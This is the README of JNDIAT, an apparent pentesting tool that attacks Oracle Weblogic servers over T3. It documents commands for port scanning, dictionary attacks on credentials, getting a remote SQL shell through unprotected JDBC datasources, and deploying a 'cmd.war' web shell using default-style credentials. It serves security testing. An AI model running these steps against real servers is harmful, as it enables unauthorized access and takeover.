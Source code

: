 # JNDIAT - JNDI Attacking Tool

**JNDIAT** (**JNDI** **A**ttacking **T**ool) is an open source penetration testing tool that tests the security of **Weblogic** servers **through T3 protocol**.

Usage examples of JNDIAT:
* You want to search if there are Weblogic **ports which are accessible through T3 protocol**;
* You want to **search valid accounts** remotely in order to have a privileged connection;
* You want to list **JNDIs (Java Naming and Directory Interface) which are accessible** to know what you can do on the remote Weblogic server (without or with a Weblogic account);
* You want to **use a unprotected (i.e. 'public') JDBC datasource** in order to get a remote interactive SQL shell;
* You want to **deploy an application** (e.g. War) on the Weblogic server in order to have a Web shell (account required).

Tested on Oracle Weblogic 11.

# Changelog

+ Version **0.01 (2014/02/02)** :
  + first version.
 
# Features

+ Supports **T3** and **T3s** (**T3 over SSL**) connections. JNDIAT creates a local temporary Java KeyStore to validate the Weblogic server's certificate;
+ Supports authentication with **empty credentials** ie login='' and password=''. Public JDBC datasources can be used with an empty account by default in Weblogic (tested on version11);
+ Supports targets if the weblogic is in a domain;
+ **Detects ports** accessible through T3 protocol;
+ **Finds valid credentials** through dictionary attacks;
+ Gets **JNDIs list accessible** with a specific account (or without account);
+ Gets a **remote sql shell** via a JDBC datasource;
+ With a privileged account, you can **deploy an application** on the weblogic server in order to have a Web shell for example.


# Usage examples

## Main help

```bash
java -jar Jndiat.jar -h
```

## JNDIAT version

```bash
java -jar Jndiat.jar --version
```

## Scan ports
This module should be used for scanning ports accessible through T3 (or T3s) protocol in order to get JNDIs.

To know if you can use the port 7001 to establish a T3 connection:
```bash
java -jar Jndiat.jar scan -s 192.168.56.101 --ports 7001
```

To scan ports 7001 and 7002:
```bash
java -jar Jndiat.jar scan -s 192.168.56.101 --ports '7001,7002'
```

To scan ports from 7001 to 7010:
```bash
java -jar Jndiat.jar scan -s 192.168.56.101 --ports '7001-7010'
```

## List of JNDIs
This module should be used to get the list of JNDIs accessible trough the T3 protocol.
This module is useful in order to know if some JNDI are accessible without authentication (ex: a 'public' JDBC datasource).

To get JNDIs accessible on port 7001 of the server 192.168.56.101:

```bash
java -jar Jndiat.jar list -s 192.168.56.101 -p 7001
```

If you not specify credentials in the command line, the tool will returns JNDIs accessible without authentication.
If you know valid credentials, you can use it to get more JNDIs:

```bash
java -jar Jndiat.jar list -s 192.168.56.101 -p 7001 -U username -P password
```

## JDBC DataSource
This module allows you to get a remote SQL shell via a JDBC datasource.

To get an interactive SQL shell from a JNDI datasource:

```bash
java -jar Jndiat.jar datasource -s 192.168.56.101 -p 7001 --sql-shell
```

The tool will ask you the JDBC datasource to use. 
If you know the datasource name, you can specify it:
```bash
java -jar Jndiat.jar datasource -s 192.168.56.101 -p 7001 --sql-shell --datasource='jdbc/myDataSource'
```

## Deploy an application

Thanks to this module, you can deploy an application (e.g. .war, .ear) in the remote Weblogic server through the T3 protocol.
To use this module, you may have high privileges (and an account of course).

The following command deploys the application 'cmd.war' on the remote weblogic server.

```bash
java -jar Jndiat.jar deployer -s 192.168.56.101 -p 7002 -U weblogic -P welcome1 --deploy --appl-file cmd.war
```

To undeploy the previous war ('cmd.war') from the remote weblogic server:

```bash
java -jar Jndiat.jar deployer -s 192.168.56.101 -p 7002 -U weblogic -P welcome1 --undeploy
```

To change the application name deployed on the weblogic server, the *--display-name* option must be used:

```bash
java -jar Jndiat.jar deployer -s 192.168.56.101 -p 7002 -U weblogic -P welcome1 --deploy --appl-file 'cmd.war' --display-name 'appli-name-displayed'
```

To undeploy a specific application named *appli-name-displayed*:

```bash
java -jar Jndiat.jar deployer -s 192.168.56.101 -p 7002 -U weblogic -P welcome1 --undeploy --display-name 'appli-name-displayed'
```
